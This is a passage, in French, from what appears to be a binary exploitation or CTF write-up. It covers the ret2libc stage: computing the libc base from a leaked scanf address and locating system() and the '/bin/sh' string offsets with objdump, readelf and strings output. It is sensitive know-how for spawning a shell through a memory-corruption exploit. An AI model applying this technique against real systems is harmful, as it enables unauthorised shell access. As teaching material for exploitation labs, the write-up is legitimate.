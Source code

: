 ### Création du shell

Maintenant que nous avons fait fuiter l'adresse mémoire de la fonction scanf de la libc nous devons trouver l'adresse de cette même fonction scanf mais dans la libc afin de calculer l'écart et avoir l'adresse de base de la libc afin d'appeller n'importe quelle autre fonction.S
Afin de trouver ces adresses nous pouvons utiliser strings, objdump et/ou readelf.

Pour trouver l'adresse de `scanf` dans la libc:
```
root@566553ec2fbd:~# objdump -d /lib32/libc.so.6 | grep isoc99_scanf
00076480 <__isoc99_scanf@@GLIBC_2.7>:
   764a8:	75 3c                	jne    654e6 <__isoc99_scanf@@GLIBC_2.7+0x66>
   764b9:	74 27                	je     654e2 <__isoc99_scanf@@GLIBC_2.7+0x62>
   764c8:	74 01                	je     654cb <__isoc99_scanf@@GLIBC_2.7+0x4b>
   764ce:	74 07                	je     654d7 <__isoc99_scanf@@GLIBC_2.7+0x57>
   7650c:	75 27                	jne    65535 <__isoc99_scanf@@GLIBC_2.7+0xb5>
   76515:	75 1e                	jne    65535 <__isoc99_scanf@@GLIBC_2.7+0xb5>
   76526:	74 01                	je     65529 <__isoc99_scanf@@GLIBC_2.7+0xa9>
   7652c:	74 07                	je     65535 <__isoc99_scanf@@GLIBC_2.7+0xb5>

```
```
00076480 <__isoc99_scanf@@GLIBC_2.7>:
```

Pour trouver l'adresse de `system` dans la libc:
```
root@566553ec2fbd:~# readelf -s /lib32/libc.so.6 | grep system        
   257: 0012a2c0   102 FUNC    GLOBAL DEFAULT   13 svcerr_systemerr@@GLIBC_2.0
   658: 000feae0    55 FUNC    GLOBAL DEFAULT   13 __libc_system@@GLIBC_PRIVATE
  1525: 000feae0    55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0
```
```
1525: 000feae0    55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0
```


Pour trouver l'adresse de la string `/bin/sh` dans la libc:
```
root@566553ec2fbd:~# strings -a -t x /lib32/libc.so.6 | grep /bin/sh
 18ebbb /bin/sh
```

Nous avons donc:
* `__isoc99_scanf@GLIBC_2.7`: 0x00076480
* `system@@GLIBC_2.0`:  0x000feae0 
* `/bin/sh`: 0x0018ebbb 

Pour trouver la base de la libc on fait la différence entre la fuite du scanf obtenue dans la première partie et l'adresse de scanf trouvée dans la libc.
On peut ensuite ajouter à cette différence l'adresse de la fonction system ou l'adresse de la string “/bin/sh” afin d'y accéder avec notre payload.

La fonction system dans la libc prend un argument :
```c
int system(const char *command);
```
